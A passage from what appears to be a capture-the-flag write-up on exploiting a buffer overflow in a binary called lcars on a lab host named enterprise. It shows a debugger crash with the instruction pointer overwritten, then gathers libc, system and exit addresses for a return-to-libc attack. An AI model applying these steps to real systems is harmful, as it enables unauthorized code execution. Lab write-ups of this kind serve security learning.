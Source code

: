 ```bash
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xfa
EBX: 0x41414141 ('AAAA')
ECX: 0x0
EDX: 0x0
ESI: 0xf7fa1000 --> 0x1e4d6c
EDI: 0xf7fa1000 --> 0x1e4d6c
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd110 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd110 --> 0x0
0004| 0xffffd114 --> 0xf7dc6e48 --> 0x5189
0008| 0xffffd118 --> 0x6970001a
0012| 0xffffd11c ("carda1")
0016| 0xffffd120 --> 0xf7003161
0020| 0xffffd124 --> 0x56558000 --> 0x2ef0
0024| 0xffffd128 --> 0xf7fa1000 --> 0x1e4d6c
0028| 0xffffd12c --> 0xf7fa1000 --> 0x1e4d6c
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

## Getting Addresses
Return-to-libc attack requires addresses of system, exit (Return address) and /bin/sh.
We'll take addresses from the libc shared library present on enterprise.

- Finding address of libc with `ldd`:
```bash
www-data@enterprise:/$ ldd /bin/lcars
        linux-gate.so.1 =>  (0xf7ffc000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7e32000)
        /lib/ld-linux.so.2 (0x56555000)
```

- Getting offsets for system, exit and /bin/sh with `gdb`, since `readelf` isn't present on enterprise.
Trying to get system address when the program isn't running will result in errors:
```bash
(gdb) p &system
No symbol table is loaded.  Use the "file" command.
```

Run it once or add breakpoint somewhere to access addresses:
```bash
(gdb) p &system
$1 = (<text variable, no debug info> *) 0xf7e4c060 <system>
(gdb) p exit
$5 = {<text variable, no debug info>} 0xf7e3faf0 <exit>
```
&function and straight function specified. Both works.
